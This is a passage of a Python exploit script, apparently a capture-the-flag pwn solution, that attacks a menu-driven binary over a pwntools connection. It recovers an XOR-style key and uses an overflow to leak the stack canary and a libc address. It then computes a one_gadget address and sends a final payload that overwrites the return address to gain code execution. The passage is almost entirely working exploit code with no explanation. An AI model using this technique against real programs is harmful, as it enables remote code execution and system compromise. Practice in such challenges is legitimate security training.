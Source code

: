 ```python
            tmp = swap_re(tmp, 3)
            result += tmp.to_bytes(1, byteorder='little')
              
    print('plain: ', result[::-1])
    
    return result[::-1]

libc_main_offset = 0x29d90
one_gadget = [0xebc81, 0xebc85, 0xebc88, 0xebce2, 0xebd38, 0xebd3f, 0xebd43]

setkey()

payload = 'A' * 4
p.sendlineafter(b'> ', b'1')
p.sendline(payload)

p.recvuntil(b'enc: ')
enc = p.recv(4)
print(enc)

key_list = find_key(bytearray(payload.encode()), 4, enc)
print(key_list)

key = 0
for i in range(len(key_list)):
    key = key | (key_list[i] << (i * 8))

print(hex(key))
show = '1. encrypt'

payload = b'A' * 72 + b'\n'
plain = decrypt(payload, len(payload), key_list)
p.sendlineafter(b'> ', b'1')
p.send(plain)

res = p.recvuntil(show.encode())

idx = res.find(show.encode())
canary = u64(b'\x00' + res[idx - 9: idx - 2])
print('[+] canary: ' + hex(canary))

payload = b'\xff' * 87
plain = decrypt(payload, len(payload), key_list)
p.sendline(b'1')
p.sendline(plain)

res = p.recvuntil(show.encode())
idx = res.find(show.encode())
leak = u64(res[idx - 7:idx - 1] + b'\x00' * 2)
print(hex(leak))

libc_base = leak - 0x29d90
oneshot = libc_base + one_gadget[5]
writeable = libc_base + 0x21a240

payload = b'A' * 72
payload += p64(canary)
payload += p64(writeable)
payload += p64(oneshot)
plain = decrypt(payload, len(payload), key_list)
p.sendline(b'1')
p.sendline(plain)

```